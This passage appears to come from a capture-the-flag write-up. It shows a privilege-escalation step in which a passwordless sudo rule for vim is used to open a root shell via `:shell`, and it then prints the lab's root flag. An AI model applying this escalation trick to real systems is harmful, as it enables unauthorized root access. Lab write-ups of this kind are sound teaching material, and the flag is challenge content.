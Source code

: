 ~~~
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
~~~

We can run `vim` with sudo command and no password. Just run `sudo vim` and then type `:shell` and we have a root shell:
~~~
root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Used to privesc: `vim`

## Root Flag

Now we are root and can read the root flag in `/root`:
~~~
root@Machine:~# cd /root
root@Machine:/root# ls
root.txt
root@Machine:/root# cat root.txt 
W3ll d0n3. You made it!
~~~

Root flag: `W3ll d0n3. You made it!`


# D0N3! ; )

Thanks to the creator(s).

Hope you had fun!

And remember to make it a good one! : )